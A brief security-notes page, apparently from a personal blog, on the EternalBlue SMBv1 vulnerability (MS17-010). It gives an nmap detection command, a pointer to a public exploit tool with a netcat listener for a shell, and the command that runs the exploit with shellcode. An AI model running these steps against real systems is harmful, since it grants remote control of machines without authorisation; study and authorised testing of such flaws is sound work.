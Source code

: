 ```yaml
---
title: 'Eternal Blue'
description: ''
pubDate: 'Jul 03 2022'
heroImage: '/ldapi.jpg'
tag: ['windows', 'eternal blue']
slug: vuln/eternal-blue
---
```


CVE-2017-0144

- It's a collection of Windows vulnerabilities and exploits that allow RCE.

- Devoped by the NSA to take advantage of the MS17-010 vulnerability and was leaked to the public by a hacker group Shadow Brokers.

- Exploit SMBv1 protocol.

```bash
nmap -p445 -sCV --script=smb-vuln-ms17-010 target
```

Execute this 3ndG4me/Autoblue-ms17-010 and listen nc

```bash
python eternalblue_exploit7.py target shellcode/sc_x64.bin
```
